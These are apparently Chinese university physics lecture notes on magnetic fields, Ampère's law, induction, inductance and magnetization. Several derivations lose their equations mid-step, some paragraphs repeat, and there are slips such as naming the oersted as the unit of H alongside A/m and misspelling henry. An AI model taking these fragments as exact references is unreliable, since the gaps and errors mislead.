类似地，电流元 \(i_2 ds_2\) 对 \(i_1 ds_1\) 的作用力为 $$ dF_{21} = \dfrac{\mu_0}{4\pi} \dfrac{i_1 i_2 ds_1 ds_2}{r_{21}^2} $$
因此我们得到 $ dF_{12} = dF_{21} $，即两个电流的相互作用力大小是相同的，事实上我们也可以发现两个同向的电流会相互吸引
 对于两段相互垂直的电流，
对于两段相互垂直的电流，
又因为 $ ds_1 \parallel \hat{r}_{12} $，因此
但是这里需要注意的是，$ ds_2 \perp \hat{r}_{21} $，因此
这里我们就得到一个反直觉的结论，$ dF_{12} \neq dF_{21} $，这是需要多加注意的
磁感应强度¶
在上面我们反复使用了下面的公式
这是对于电流元的作用力，而对于整个环流电路的作用力，我们可以将其积分，得到
因此我们可以对上式叉乘符号的右侧进行定义：
于是我们就得到 $$ d\overrightarrow{F}_2 = i_2 d\overrightarrow{s}_2 \times \overrightarrow{B}_1 $$

$ \overrightarrow{B}_1 $ 是由环路电流 \(i_1\) 在电流元 \(i_2 d\overrightarrow{s}_2\) 处产生的磁感应强度、
- 对于 \(\overrightarrow{B}_1\) 的大小，我们定义为 \(F_2\) 变化最快的方向中 \(F_2\) 与 \(i_2 ds_2\) 的比值
- \(\overrightarrow{B}_1\) 的方向由 \(i_1 ds_1\) 与 \(\hat{r}_{12}\) 的叉乘方向决定
环路电流的磁场¶
Biot-Savart Law (毕奥-萨阀尔定理)¶

这个定理描述的是一个直电流产生的磁场方向，实际上就是中学阶段我们已经学到了的右手定则（right hand rule）
长的直线电流¶

根据 $ d\overrightarrow{B} = \dfrac{\mu_0}{4\pi} \dfrac{i d\overrightarrow{s} \times \hat{r}}{r^2} $，我们知道 $ d\overrightarrow{B} = \dfrac{\mu_0}{4\pi} \dfrac{i dx \sin\theta}{r^2} $
这里我们关注的是直线电流旁点 \(P\) 处的磁场强度，直接进行积分 $$ B = \int_{A_1}^{A_2} dB = \dfrac{\mu_0 i}{4\pi} \int_{A_1}^{A_2} \dfrac{i \sin\theta dx}{r^2} $$ 其中 \(r = \dfrac{r_0}{\sin\theta}\) ， \(x = -r_0 \cot\theta\)， \(dx = \dfrac{r_0 d\theta}{\sin^2 \theta}\)
于是最终就有
对于无限长的带电线，有一定夹角
- \(\theta_1 = 0\) ， \(\cos\theta_1 = 1\)
- \(\theta_2 = \pi\) ， \(\cos\theta_2 = -1\)
于是 $$ B = \dfrac{\mu_0 i}{4\pi r_0} (\cos\theta_1 - \cos\theta_2) = \dfrac{\mu_0 i}{2\pi r_0} $$
当 $ r_0 << L $ 时，就可以使用上面的结论
环流电路的磁场¶

考虑在环流电路中轴线上的一点 \(A\)，显然，我们有 $ \left| d\overrightarrow{B} \right| = \left| d\overrightarrow{B}' \right| $
并且根据 $ d\overrightarrow{B} = \dfrac{\mu_0}{4\pi} \dfrac{i d\overrightarrow{s} \times \hat{r}}{r^2} $ ， $ dB = \dfrac{\mu_0}{4\pi} \dfrac{i ds}{r^2} \sin\theta $ 和 $ dB_x = dB \cdot \cos\alpha $，其中 \(\alpha\) 是直径与电流元到点 \(A\) 连线的夹角。
又因为此时电流元方向始终和电流元与点 \(A\) 的连线方向垂直，因此 \(\theta = \dfrac{\pi}{2}\)，同时我们还有 \(r = r_0 / \sin\alpha\)，于是
最后我们把带有 \(\alpha\) 的项消掉
$\sin \alpha = \dfrac{r_0}{\sqrt{r_0^2 + R^2}} $ ， $ \cos\alpha = \dfrac{R}{\sqrt{r_0^2 + R^2}}$
就得到 $$ B = \dfrac{\mu_0}{2} \dfrac{iR^2}{(R^2 + r_0^2)^{3/2}} $$
Tip
实际上分母就是电流元与点 \(A\) 的距离的三次方，在记忆时不必死记硬背
- 在环流电路的中心时，\(r_0 = 0\)，\(B = \dfrac{\mu_0 i}{2R}\)
- 当 \(r_0 >> R\) 时，\(B = \dfrac{\mu_0 i R^2}{2r_0^3}\)
- 同样的，环流电路产生的磁感应强度方向由右手定则决定
磁偶极矩
对环流电路产生的的磁感应强度可以做一些形式上的变换 $$ B = \dfrac{\mu_0 i R^2}{2r_0^3} = \dfrac{\mu_0 i \pi R^2}{2\pi r_0^3} = \dfrac{\mu_0 i A}{2\pi r_0^3} $$
于是我们就可以定义磁偶极矩为电流大小与环流电路包裹住的圆形截面面积的乘积： $$ \mu = iA = i\pi R^2 $$ $$ B = \dfrac{\mu_0 i R^2}{2r_0^3} = \dfrac{\mu_0}{2\pi} \dfrac{\mu}{r_0^3} $$

对于多匝的线圈，磁偶极矩可以定义为 $$ \mu = iA = Ni\pi R^2 $$ 事实上，有 $$ \overrightarrow{\mu} = i\overrightarrow{A} $$
螺线管（solenoid）的磁场¶

在实际实验中，我们通常使用螺线管来产生恒定不变的磁场。
一根螺线管是一条在半径为 \(R\)，长度为 \(L\) 的圆柱体上缠绕的电线，其中每单位长度绕 \(n\) 匝，通过的电流大小为 \(i\).
当 \(R<<L\) 时，螺线管内部的磁场就可以认为是大小恒定不变的，且方向沿着圆柱的轴线方向。我们可以使用安培定律来求出这个磁场的大小。

如上图所示，螺线管长度为 \(L\)，半径为 \(R\)，每单位长度绕 \(n\) 匝线圈，点 \(P\) 与螺线管中心的距离为 \(x\)。
首先我们由环流电路的磁场公式，得到
同时我们还有
$ r = \sqrt{R^2 + (x-l)^2} = \dfrac{R}{\sin\beta} $
$ \dfrac{x-l}{R} = \cot\beta \Rightarrow dl = \dfrac{R}{\sin^2\beta} d \beta $
于是代入进去我们就得到
最后还有
$\cos\beta_1 = \dfrac{x+L/2}{\sqrt{R^2 + (x+L/2)^2}} $ ， $\cos\beta_2 = \dfrac{x-L/2}{\sqrt{R^2 + (x-L/2)^2}} $
-
当螺线管是无限长（\(L \to \infty\)）时，在螺线管的内部，有 \(\beta_1 = 0, \beta_2 = \pi\)
$ B = \dfrac{1}{2} \mu_0 ni(1+1) = \mu_0 ni $
-
在螺线管的端头时，有 \(\beta_1 = 0, \beta_2 = \dfrac{\pi}{2}\)
$ B = \dfrac{1}{2} \mu_0 ni(1-0) = \dfrac{1}{2} \mu_0 ni $
磁场的高斯定理和安培环路定理¶
回顾静电场的高斯定理和安培环路定理：
- 高斯定理：$ \oiint \overrightarrow{E} \cdot d\overrightarrow{A} = \dfrac{1}{\epsilon_0} \sum q$ ， $ \nabla \cdot \overrightarrow{E} = \dfrac{\rho_e}{\epsilon_0} $
- 环路定理：$ \oint \overrightarrow{E} \cdot d\overrightarrow{l} = 0$ ， $ \nabla \times \overrightarrow{E} = 0$
由电流产生的磁场与静电场有一些共同的特征，但磁场 \(B\) 的这些特征与静电场的有所不同。
类似于电通量，我们也有磁通量的概念：通过一个面的磁感线的数量，即磁感应强度 \(B\) 与有向面积 \(A\) 的乘积。 $$ \Phi_B = \iint \overrightarrow{B} \cdot d\overrightarrow{A} = \iint B \cos\theta dA $$
$$ \overrightarrow{B} = \lim_{\Delta A \to 0} \dfrac{\Delta \Phi_B}{\Delta A} $$ 其中 \(\Phi_B\) 的单位为 \(\text{T} \cdot \text{m}^2 = \text{Wb}\)（韦伯）。
于是最终得到磁场的高斯定理:
$ \oiint \overrightarrow{B} \cdot d\overrightarrow{A} = 0 $ ， $ \nabla \cdot \overrightarrow{B} = 0 $
证明磁场的高斯定理

对于电流元 \(id\overrightarrow{s}\) 产生的磁场，我们有 $$ d\overrightarrow{B} = \dfrac{\mu_0}{4\pi} \dfrac{i d\overrightarrow{s} \times \hat{r}}{r^2} $$
对于图中这一个红色的任意闭合曲面，我们可以考虑一个穿过这个曲面的小圆环（多个小圆环叠加起来就可以覆盖到整个闭合曲面）
显然，在这个圆环上，有 \(dA_1 = dA_2, \enspace |\cos\theta_1| = |\cos\theta_2|\)，因此这两个小面积的磁场大小相同，面积大小相同但方向相反 $$ d\Phi_1 = d\Phi_2 $$ $$ d\Phi_1 + d\Phi_2 = 0 $$ $$ \oiint \overrightarrow{B} \cdot d\overrightarrow{A} = 0 $$

这里，\(\sum_{inloop} i\) 是环路内的电流总和。对于环路内的电流，根据右手定则，电流方向与环路方向相同时，电流为正，否则为负。
如在右图中，\(i_1\) 为正，\(i_2\) 为负，因此 $$ \oint \overrightarrow{B} \cdot d\overrightarrow{l} = \mu_0(i_1 - i_2) $$
利用环路定理，我们就可以很方便地求出环路上的磁感应强度。
Note
环路内部具体某一点的磁感应强度实际上还会受到环路外部的电流的影响，但环路外部的电流不会对 \(\overrightarrow{B} \cdot d\overrightarrow{l}\) 积分后的最终结果产生影响，因为积分过后外部的电流的影响会被相互抵消。
例如在上面的例子中 \(i_3\) 对环路内部的磁场并没有影响。
Tip

在使用环路定理的时候，我们只考虑穿过环路内部的电流，而忽略掉其他所有的内容。对于电流的方向，我们以右手定则来判断“正负”。
例如在右图中 $$ \oint \overrightarrow{B} \cdot d\overrightarrow{l} = \mu_0 (i_1 + i_3 - 2i_2) $$
无限长直导线的磁场¶

考虑一个无限长直导线，半径为 \(R\)，大小为 \(i\) 的电流均匀分布在导线内部，我们考虑距离导线的中心距离为 \(r\) 处的磁场。
无限长直导线的磁场
 首先我们选择一个半径为 \(r\) 的圆环作为回路，然后对这个回路运用安培环路定理
首先我们选择一个半径为 \(r\) 的圆环作为回路，然后对这个回路运用安培环路定理
- 为什么？因为这样能使得环路上的磁场高度对称，大小一致，且能保证磁场方向始终沿着环路的切线方向，从而极大程度地简化计算。
于是我们有 $$ \oint \overrightarrow{B} \cdot d\overrightarrow{l} = B \cdot 2\pi r = \mu_0 i $$ 于是 $$ B = \dfrac{\mu_0 i}{2\pi r} $$
 同理，我们还是选择一个半径为 \(r\) 的圆环作为回路，但是此时环路内的电流大小为
$$ i_{enclosed} = \dfrac{\pi r^2}{\pi R^2} i = \dfrac{r^2}{R^2} i $$
根据环流定律
$$ \oint \overrightarrow{B} \cdot d\overrightarrow{l} = B \cdot 2\pi r = \mu_0 i_{enclosed} = \mu_0 \dfrac{r^2}{R^2} i $$
于是
$$ B = \dfrac{\mu_0 r}{2\pi R^2} i $$
同理，我们还是选择一个半径为 \(r\) 的圆环作为回路，但是此时环路内的电流大小为
$$ i_{enclosed} = \dfrac{\pi r^2}{\pi R^2} i = \dfrac{r^2}{R^2} i $$
根据环流定律
$$ \oint \overrightarrow{B} \cdot d\overrightarrow{l} = B \cdot 2\pi r = \mu_0 i_{enclosed} = \mu_0 \dfrac{r^2}{R^2} i $$
于是
$$ B = \dfrac{\mu_0 r}{2\pi R^2} i $$
Tip
这说明无限长直导线的磁场在 \(r=R\) 处磁场达到最大

无穷电流面的磁场¶

考虑一个单位长度有 \(n\) 条导线组成的无限电流面，每条导线带有的电流大小为 \(i\)。
由对称性可知，在垂直于电流面方向（图中水平方向）上的磁场大小为零；而在平行于电流面方向（图中竖直方向）上的磁场大小相等，方向相反。
取一个边长为 \(w\) 的正方形回路，根据安培环路定理，我们有 $$ \oint \overrightarrow{B} \cdot d\overrightarrow{l} = Bw + 0 + Bw + 0 = 2Bw = \mu_0 nwi $$ 于是 $$ B = \dfrac{1}{2} \mu_0 ni$$
无穷螺线管的磁场¶

为何使用螺线管产生稳定的磁场？
前面我们提到过，产生稳定的电场时，我们可以使用平行板电容器；而产生稳定的磁场时，我们可以使用螺线管。
如果我们把螺线管沿着纵向切一刀，并从截面方向来看，就可以看到两个大小相等，方向相反的电流面，这与电容器的两个极板很类似：
- 在电流面的两侧，两个电流面产生的磁场方向相反，相互抵消，总磁场大小为零
- 在电流面的中间，两个电流面产生的磁场方向相同，相互叠加，总磁场大小为 $$ B = \mu_0 ni $$
或者我们也可以使用安培环路定理来求解 $$ \oint \overrightarrow{B} \cdot d\overrightarrow{l} = Bw = \mu_0 nwi $$ 于是 $$ B = \mu_0 ni $$
螺绕环的磁场¶

- 在螺绕环外，磁场大小为零
- 在螺绕环内，记螺绕环总的电流数量为 \(N\)，每个电流大小为 \(i\)
常见的几种模型的磁场大小
-
无限长直导线
- 导线外部：\(B = \dfrac{\mu_0 i}{2\pi r}\)
- 导线内部：\(B = \dfrac{\mu_0 r}{2\pi R^2} i\)
-
无限电流面：\(B = \dfrac{1}{2} \mu_0 ni\)
- 无限螺线管：\(B = \mu_0 ni\)
- 螺绕环：\(B = \mu_0 ni\)
- 圆环轴线上的磁场：\(B \propto \dfrac{\mu_0 i R^2}{2z^3}\)
电流在磁场中受到的力和力矩¶
Warning
判断受力的方向时要抛弃掉高中所学的所谓“左手定则”，而全部使用右手定则，即利用叉乘的性质来判断受力方向。安培力与洛伦兹力在本质上是一样的。
Example

\(F_1\) 和 \(F_3\) 的计算很简单，对于 \(F_2\)，根据对称性很容易发现它在水平方向上的力为零，只有竖直方向上的力 $$ F_2 = F_{\perp} = \int_0^{\pi} iBR d\theta \sin\theta = iBR \int_0^{\pi} \sin\theta d\theta = 2iBR $$
矩形线圈¶

对于一个矩形线圈，如果它绕着一个与磁场方向垂直的轴线旋转，那么它会受到一个力矩。
即 $$ \overrightarrow{\tau} = iA(\overrightarrow{n} \times \overrightarrow{B}) = \overrightarrow{\mu} \times \overrightarrow{B} $$
任意形状线圈¶

我们可以把上面的结论推广到任意形状的线圈，我们可以把任意形状的线圈分解为一个个小矩形，对所有小矩形带有的电流进行累加，发现只有最外侧的电流不会相互抵消，最终得到的电流就是这个线圈的总电流。
先分析受力 $$ dF_1 = ids_1B\sin\theta_1 $$ $$ dF_2 = ids_2B\sin\theta_2 $$ $$ ds_1 \sin\theta_1 = ds_2 \sin\theta_2 = dh $$ $$ dF_1 = dF_2 = iBdh $$
再分析力矩 $$ d\tau = dF_1 \cdot x_1 + dF_2 \cdot x_2 = iB \cdot dh \cdot (x_1 + x_2) = iB \cdot dA $$ $$ \tau = \int dL = \int iBdA = iBA $$
Tip
磁偶极矩的方向可以通过右手定则来判断 $$ \overrightarrow{\mu} = i\overrightarrow{A} $$
线圈在磁场中收到的力矩使得它在磁场中旋转，具有使得磁偶极矩的方向转到与磁场方向相同的趋势。
Note
类似于电偶极矩的势能 $$ U = -\overrightarrow{p} \cdot \overrightarrow{E} $$ 磁偶极矩也有相同形式的势能 $$ U = -\overright arrow{\mu} \cdot \overrightarrow{B} $$
电荷在磁场中的运动¶
洛伦兹力
- 洛伦兹力不做功，洛伦兹力只改变速度方向，不改变速度大小
- 洛伦兹力的方向可用右手定则来判断
- 在匀强磁场中，带电粒子在垂直于磁场的平面上做圆周运动 $$ qvB = \dfrac{mv^2}{R} \rightarrow R = \dfrac{mv}{qB} $$ $$ T = \dfrac{2\pi R}{v} = \dfrac{2\pi m}{qB} $$ $$ f = \dfrac{1}{T} = \dfrac{qB}{2\pi m} $$
质谱仪（速度选择器）

$$ qE = qvB \rightarrow v = \dfrac{E}{B} $$ 在速度选择器后紧接着一个匀强磁场，就可以根据粒子运动半径的大小来判断粒子的质荷比
电动力学¶
约 6258 个字 37 张图片 预计阅读时间 25 分钟
法拉第电磁感应定律¶
可以定义通过一个开放曲面的磁通量为 $$ \Phi_B = \iint \overrightarrow{B} \cdot d\overrightarrow{A} $$
根据法拉第电磁感应定律，感生电动势由磁通量的变化率决定 $$ \varepsilon = -\dfrac{ \mathrm{d}\Phi_B }{ \mathrm{d}t } $$
感生电动势的方向
上式中的负号表示感生电动势的方向总是倾向于使感生电流的磁场方向抵消原磁场的变化，即“阻碍”磁场的变化，具体的方向可由右手定则确定，这就是楞次定律。
楞次定律是能量守恒定律在电磁感应现象中的具体表现。
动生电动势和感生电动势¶
动生电动势¶

动生电动势实际上由洛伦兹力产生。
电子在磁场中运动时，其受到的洛伦兹力为 $$ \overrightarrow{f} = -e(\overrightarrow{v} \times \overrightarrow{B}) $$
这是一个非静电力，电子在这个力的驱动下沿着 \(\mathbf{DCBA}\) 方向运动，这样就产生了一个电动势。
Question
我们都说洛伦兹力并不做功，但为什么我们又说洛伦兹力产生了动生电动势？
因为实际上这个过程中外力克服洛伦兹力的分量做功，因此洛伦兹力有的分量做正功，有的分量做负功，总功为零。
发电机

感生电动势¶
磁场发生变化时，会在空间中产生一个涡旋电场，这个电场会使电荷在空间中运动，从而产生感生电动势。 $$ \varepsilon = \oint \overrightarrow{E} \cdot d\overrightarrow{l} $$
空间中的电场实际上包括静电场和磁场变化产生的感生电动势 $$ \overrightarrow{E} = \overrightarrow{E} _ {sta} + \overrightarrow{E} _ {ind} $$
我们可以对空间中的电场环路定理进行推广
电场环路定理的推广
感应电动势做的功相当于感生电场对电荷做的功，即 $$ \varepsilon q_0 = q_0 E_{ind} \cdot 2 \pi r $$
从而根据法拉第电磁感应定律 $$ \varepsilon = E_{ind} \cdot 2 \pi r = -\dfrac{ \mathrm{d}\Phi_B }{ \mathrm{d}t } $$ 于是 $$ \oint \overrightarrow{E} \cdot d\overrightarrow{l} = \oint (\overrightarrow{E} _ {sta} + \overrightarrow{E} _ {ind}) \cdot d\overrightarrow{l} = 0 + (-\dfrac{ \mathrm{d}\Phi_B }{ \mathrm{d}t }) = -\dfrac{ \mathrm{d}\Phi_B }{ \mathrm{d}t } $$
又根据磁通量的定义，$ \Phi_B = \displaystyle\iint \overrightarrow{B} \cdot d\overrightarrow{A} $，所以 $$ \oint \overrightarrow{E} \cdot d\overrightarrow{l} = -\iint \dfrac{ \partial \overrightarrow{B} }{ \partial t } \cdot d\overrightarrow{A} $$
又根据 stokes 公式 $$ \oint \overrightarrow{E} \cdot d\overrightarrow{l} = \iint (\nabla \times \overrightarrow{E}) \cdot d\overrightarrow{A} $$
于是我们得到 $$ \nabla \times \overrightarrow{E} = -\dfrac{ \partial \overrightarrow{B} }{ \partial t } $$
Warning
由于在涡旋电场中，电场的环路积分不为零，所以感生电动势是非保守的，我们不能使用“电势”的概念。
Example

在磁场参考系中，线圈向右匀速运动，有 $$ \overrightarrow{V} = \overrightarrow{v} + \overrightarrow{v}_d, \enspace \overrightarrow{F}_B = \overrightarrow{N} + \overrightarrow{F}_i $$
从而我们可以求出感应电动势 $$ W_N = \int qBv \mathrm{d}l = qBvD $$
注意到实际上洛伦兹力有两个方向的分量，而 $$ \mathrm{d}W_i = -F_i \mathrm{d}l = -qvB \mathrm{d}l $$ $$ W_i = -qvBD = -W_N$$ 也就是说，洛伦兹力的两个分量做的功大小相等，符号相反，总功为零。这就是我们上面提到的洛伦兹力实际上并不做功。
在线圈参考系中，我们可以通过上面的结论得到一种求感生电动势的方法 $$ \varepsilon' = \int E' \mathrm{d} l = E' = BvD $$ $$ \overrightarrow{E}' = \overrightarrow{v} \times \overrightarrow{B} $$ 这里的 \(\varepsilon'\) 是感生电动势，而 \(\overrightarrow{E}'\) 是感生电场。
电感¶
互感¶

当 \(i_1\) 变化时，会在 \(S_2\) 上感应出电动势 \(\varepsilon_2\)；同样地，当 \(i_2\) 变化时，会在 \(S_1\) 上感应出电动势 \(\varepsilon_1\)。
我们可以定义一个新的物理量：磁通匝链数 \(\Psi\)，它是磁通量和匝数的乘积。
\(S_1\) 在 \(S_2\) 上产生的磁通匝链数为
同理，\(S_2\) 在 \(S_1\) 上产生的磁通匝链数为
于是我们可以通过互感系数 \(M\) 来求出感生电动势的大小 $$ M_{12} = \frac{\Psi_{12}}{i_1} = \frac{N_2 \Phi_{12}}{i_1}; \quad \varepsilon_2 = -\frac{ \mathrm{d}\Psi_{12} }{\mathrm{d}t} = -M_{12} \frac{\mathrm{d}i_1}{\mathrm{d}t}, \quad (i_1 \text{ change} ) $$
互感系数
上面的 \(M_{12}\) 和 \(M_{21}\) 就是互感系数，一般而言，它们两者相等，即 $$ M_{12} = M_{21} = M$$ 互感系数的单位为亨利（hery），\(1H = 1 \dfrac{Wb}{A}\)，常用的单位有 \(mH\)、\(\mu H\) 等。
自感¶

当通电线圈的电流发生变化时，线圈本身也会产生感生电动势，这种现象称为自感。
根据楞次定律，我们可以很显然地知道感生电动势所产生的磁场，会倾向于阻碍原磁场的变化。同时我们也可以注意到感应电动势会使得线圈两端出现电势差，并且这个电势差的大小就等于感生电动势的大小。
\[ \Psi = NBA = Li \] \[ \varepsilon_L = -\dfrac{\mathrm{d} \Psi}{\mathrm{d}t} = -L \dfrac{\mathrm{d}i}{\mathrm{d}t} \] \[ V_b - V_a = \varepsilon_L = -L \dfrac{\mathrm{d}i}{\mathrm{d}t} \]
其中，\(L\) 被称为线圈的自感系数，单位也为亨利。
如何计算自感系数
- 假设电流大小为 \(i\)
- 利用 \(i\) 计算电流产生的磁感应强度 \(\overrightarrow{B}\)
-
计算磁通匝链数$$ \Psi = N\Phi_B = NBA = Li $$
-
计算自感系数
\[ \begin{aligned} L = \dfrac{\Psi}{i} & = \dfrac{N\Phi_B}{i} \\ \varepsilon_L &= -\dfrac{\mathrm{d}\Psi}{\mathrm{d}t} \\ &= -L \dfrac{\mathrm{d}i}{\mathrm{d}t} \\ &= -N \dfrac{\mathrm{d}\Phi_B}{\mathrm{d}t} \end{aligned} \]
Example

给定一段长度为 \(l\)，横截面积为 \(A\) 的通电螺线管，求它的自感系数 \(L\)，我们可以按照上面提到的方法进行计算。 $$ B = \mu_0 n i $$ $$ \Psi = N \Phi_B = nlBA = \mu_0 n^2 ilA $$ $$ L = \dfrac{\Psi}{i} = \mu_0 n^2 lA = \mu_0 n^2 V $$
其中，\(V\) 是这一段螺线管的体积，\(n\) 是单位长度线圈的匝数。因此我们可以得到单位体积和单位长度螺线管的自感系数： $$ L_v = \dfrac{L}{V} = \mu_0 n^2, \quad L_l = \dfrac{L}{l} = \mu_0 n^2 A $$

如上图所示，长方形螺绕环共有 \(N\) 匝，内径为 \(a\)，外径为 \(b\)，宽度为 \(h\)，通电电流为 \(i\)。
首先利用环路定理求出磁感应强度 \(B\) $$ \oint \overrightarrow{B} \cdot d\overrightarrow{l} = \mu_0 N i $$ $$ B = \dfrac{\mu_0 N i}{2 \pi r} $$
接着就可以求出磁通量 \(\Phi_B\)，进而求出自感系数 \(L\)

所谓同轴电缆（coaxial cable）就是由两个同轴的导线组成的电缆，内导线半径为 \(R_1\)，外导线半径为 \(R_2\)，两导线上的电流大小相等、方向相反。 $$ \oint \overrightarrow{B} \cdot d\overrightarrow{l} = \mu_0 i $$ $$ B = \dfrac{\mu_0 i}{2 \pi r} $$
其中，\(l\) 是电缆的长度。
线圈的拼接¶

将两端线圈连接在一起，则它们既会产生互感，也会产生自感。
不妨记两个线圈的自感系数分别为 \(L_1, \quad L_2\)，在没有通量泄露的情况下，它们的互感系数为 $$ M = \sqrt{L_1 L_2} $$
左侧的连接方式使得使得两线圈电流方向相同，表示两线圈顺接；反之，右侧的连接方式表示两线圈反接。
- 顺接：$ L = L_1 + L_2 + 2M = L_1 + L_2 + 2\sqrt{L_1 L_2} $
- 反接：$ L = L_1 + L_2 - 2M = L_1 + L_2 - 2\sqrt{L_1 L_2} $
材料的磁性质¶
类似于在电容器中插入电介质可以让电容增大 $$ C = \kappa_e C_0 $$ 在磁场中插入磁性材料同样也可以让自感系数增大 $$ L = \kappa_m L_0 $$ 其中，\(\kappa_m\) 是磁导率，对于顺磁材料，\(\kappa_m \approx 1\)；对于铁磁材料，\(\kappa_m >> 1 \, (10^3 \sim 10^4)\)。
原子与原子核磁性¶
轨道磁矩¶

材料的磁性质主要由其价电子的磁矩来决定 $$ \mu = iA $$ $$ i = \dfrac{e}{T} = \dfrac{e}{2\pi r / v} = \dfrac{ev}{2\pi r} $$
又因为我们知道电子在绕原子核旋转时会有一个角动量 \(l = mvr\)，所以 $$ \mu_l = \dfrac{e}{2m} l, \quad \quad \overrightarrow{\mu}_l = -\dfrac{e}{2m} \overrightarrow{l} $$
还有 $$ \overrightarrow{\mu}_L = -\dfrac{e}{2m} \overrightarrow{L} $$ 其中，\(\overrightarrow{L}\) 是原子所有电子的总轨道角动量，\(\overrightarrow{\mu}_L\) 是原子所有电子的总轨道磁矩。
在量子的机制下，我们知道电子的轨道角动量是量子化的， $$ L = \sqrt{L(L+1)} \dfrac{h}{2\pi} = \sqrt{L(L+1)} \hbar $$
自旋磁矩¶
除了轨道磁矩外，粒子还具有自旋角动量 \(S\) 和自旋磁矩 \(\overrightarrow{\mu}_S\)
| Particle | Spin | Type |
|---|---|---|
| Electron | $ s = \frac{1}{2} \hbar $ | Fermi |
| Proton | $ s = \frac{1}{2} \hbar $ | Fermi |
| Neutron | $ s = \frac{1}{2} \hbar $ | Fermi |
| Deuteron | $ s = \hbar $ | Bose |
| Alpha Particle | $ s = 0 $ | Bose |
可以注意到所有费米子的角动量都是 \(\hbar\) 的半整数倍，而玻色子的角动量都是 \(\hbar\) 的整数倍。
整个粒子的自旋磁矩为 $$ \overrightarrow{\mu}_S = - \dfrac{e}{m} \overrightarrow{S} $$ 其中 \(\overrightarrow{S} = \sum \overrightarrow{s}\) 是粒子的总自旋角动量。
磁化强度¶
在电学部分，我们引入了极化强度 \(P\) 来描述电介质的极化程度，而在磁学部分，我们也引入磁化强度 \(M\) 的概念来描述磁性材料的磁性质。


当铁磁材料处于外部磁场中时，其内部原本杂乱无章的分子（或原子）磁矩会在磁场的作用下，趋于方向与磁场方向一致。
从整体来看，就相当于在整个材料的外表面产生了一个大的环形束缚电流，而这个束缚电流又会在铁磁材料内部产生一个磁场，因此总的磁场是 $$ \overrightarrow{B} = \overrightarrow{B}_0 + \overrightarrow{B}'_M $$
磁化强度矢量¶
磁化强度矢量定义为单位体积内磁矩的矢量和，即 $$ \overrightarrow{M} = \dfrac{\sum \overrightarrow{\mu_m}}{\Delta V} $$
极化强度矢量
回忆极化强度矢量的定义和性质，我们有 $$ \overrightarrow{P} = \dfrac{\sum \overrightarrow{p}}{\Delta V} $$ $$ \oiint \overrightarrow{P} \cdot d\overrightarrow{A} = -\sum q' $$ $$ \overrightarrow{P} \cdot \overrightarrow{n} = \sigma'_e $$
很自然地，我们希望磁化强度矢量也具有类似于极化强度矢量的性质，即 $$ \oiint \overrightarrow{M} \cdot d\overrightarrow{l} = \sum i'_{in} $$ $$ \overrightarrow{M} \times \overrightarrow{n} = \overrightarrow{j}' $$

右图中，红色部分时环绕在磁材料表面的电流，电流面密度为 $$ j' = \dfrac{i'}{\Delta z} $$ 在这里我们只需要除以 \(\Delta z\) 是因为在我们用虚线框住的范围内，\(y\) 方向上是没有电流的。
非均匀磁化
对于非均匀磁化，可以将其分割成许多小块，这样每一小块都可以认为是均匀磁化的，从而可以得到整体的磁化强度。

因此我们知道对于任意情况，磁化强度矢量 \(\overrightarrow{M}\) 都满足上面的环路定理。
磁场强度¶
由磁场的环路定理，我们知道 $$ \oint_L \overrightarrow{B} \cdot d\overrightarrow{l} = \mu_0 \sum_{inL} (i_0 + i') = \mu_0 \sum_{inL} i_0 + \mu_0 \oint_L \overrightarrow{M} \cdot d\overrightarrow{l}$$ 于是 $$ \oint_L (\dfrac{\overrightarrow{B}}{\mu_0} - \overrightarrow{M}) \cdot d\overrightarrow{l} = \sum_{inL} i_0 $$
因此我们可以定义磁场强度为 $$ \overrightarrow{H} = \dfrac{\overrightarrow{B}}{\mu_0} - \overrightarrow{M} $$ $$ \oint_L \overrightarrow{H} \cdot d\overrightarrow{l} = \sum_{inL} i_0 $$
磁场强度 \(\overrightarrow{H}\) 的单位是奥斯特 Os，安培每米（A/m）。
Note
在真空中，有 $$ \overrightarrow{M} = 0, \quad \overrightarrow{H} = \dfrac{\overrightarrow{B}}{\mu_0}, \quad \overrightarrow{B} = \mu_0 \overrightarrow{H} $$
磁化强度、磁场强度与磁感应强度的关系¶
$$ \overrightarrow{M} = \chi_m \overrightarrow{H} $$ $$ \overrightarrow{B} = \kappa_m \mu_0 \overrightarrow{H} $$ 由于 $$ \overrightarrow{B} = \mu_0 (\overrightarrow{H} + \overrightarrow{M}) = \mu_0 (1 + \chi_m) \overrightarrow{H} = \kappa_m \mu_0 \overrightarrow{H} $$ $$ \therefore \kappa_m = 1 + \chi_m $$ 其中，\(\chi_m\) 是磁化率，\(\kappa_m\) 是磁导率。
这和我们之前对介电常数和极化率的定义是一致的。$ \kappa_e = 1 + \chi_e $
Example
在螺线管中插入铁磁材料，可以让它的自感系数增大

于是磁感应强度的比值为 $$ B = \mu_0 \kappa_m H = \mu_0 \kappa_m n i_0 = \kappa_m B_0 $$ $$ \therefore \dfrac{B}{B_0} = \kappa_m $$
从而 $$ \dfrac{L}{L_0} = \dfrac{\Psi}{\Psi_0} = \kappa_m $$
Idea
从这样的角度看来，磁场强度 \(H\) 与电场强度 \(E\)，磁感应强度 \(B\) 与电感应强度 \(D\) 之间的关系又是比较相似的。
磁化率与磁导率¶
不同类型材料的磁化率、磁导率如下表所示：
| 顺磁 | 抗磁 | 铁磁 | |
|---|---|---|---|
| \(\chi_m\) | 大于 0 但很小 (\(10^{-6}\)) | 小于 0 但绝对值远小于 1 | 与磁场强度有关 |
| \(\kappa_m\) | 大于 1 但是接近 1 | 小于 1 但是接近 1 | 与磁场强度有关（\(10^2 \sim 10^3\)） |
磁化的微观解释¶
各种材料的磁性质

材料内部原本杂乱无章的磁矩会在外部磁场的作用下，材料内部的磁矩会朝向磁场方向，磁化的程度与温度有关
居里定律： $$ \overrightarrow{M} = \chi_m \overrightarrow{H} = \dfrac{C}{T} \overrightarrow{H}, \quad \chi_m(T) = \dfrac{C}{T} $$ 其中 \(C\) 为居里常数，\(T\)为温度
因为顺磁性的磁化率很小，磁化强度也很小，所以它对总磁场的影响很小
抗磁材料在没有外磁场的情况下，各电子之间的磁矩相互抵消，内部总磁矩为0 $$ \overrightarrow{\mu}_m = 0, \quad \overrightarrow{J} = 0 $$ $$ \frac{Ze^2}{4\pi \varepsilon_0 r^2} = m \omega_0^2 r $$ $$ \omega_0 = \left( \frac{Ze^2}{4\pi \varepsilon_0 m r^3} \right)^{½} $$ 由于磁场对电子的洛伦兹力相比于库仑力非常小，因此它对电子的轨道半径几乎没有影响
